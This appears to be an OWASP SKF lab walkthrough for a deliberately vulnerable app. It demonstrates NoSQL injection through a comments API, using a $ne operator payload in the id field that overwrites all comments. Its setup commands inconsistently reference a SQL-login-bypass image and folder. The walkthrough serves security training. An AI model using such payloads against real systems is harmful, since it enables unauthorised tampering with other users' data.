





# KBID XXX - NoSQL

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:nosql
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/sqli-login-bypass
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/python/SQLI-login-bypass/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

First, we need to understand how the data is stored. NoSQL databases are often document-oriented, meaning that each record is stored as a document. This document can be in JSON, XML, or any other format.

Is important to understand the structure of the document in order to exploit a NoSQL injection. For example, a document might look like this:

```json
{
  "user": {
    "name": "Bob",
    "age": 25,
    "address": "123 Main St."
  }
}
```

In this example, the document is storing information about a user. We can see that there is a "name" field, an "age" field, and an "address" field.

The most popular NoSQL database is MongoDB, so the database being used is likely MongoDB. MongoDB stores data in JSON documents, so we can assume that the data is stored in a similar format to the example above.

After we register an account and log in, we can see that the app has a comment section. We can add a comment and update the comment.



When we update a comment we can see that the app is making a PUT request to the "/comments" endpoint. The request body contains the text that we entered and an id.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": "This is an updated comment"
}
```

If we use a tool like Burp or ZAP to intercept the comment and we add a nested property, we can see that the app is storing the comment as a JSON document.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": {
    "nested": "This is a nested property"
  }
}
```



If open the developer tools in the browser and go to the network tab, we can see that the app is making a GET request to the "/comments" endpoint. The response contains a list of comments with our nested property.

```json
[
  {
    "id": "a6f317162e2141d497bf97b7a3a06d4d",
    "text": {
      "nested": "This is a nested property"
    }
  }
]
```



This means that the field is not properly sanitized, and we can inject a NoSQL query.

## Exploitation

We can update a comment and then intercept the request and change the id to a MongoDB query. We can use the $ne operator to update all documents where the id is not equal to the id that we entered.

```json
{
  "id": {
    "$ne": -1
  },
  "text": "INJECTED"
}
```



If we send the request and refresh the page, we can see that the app updates all the comments with the text we entered.



## Additional sources

[owasp.org | Testing for NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
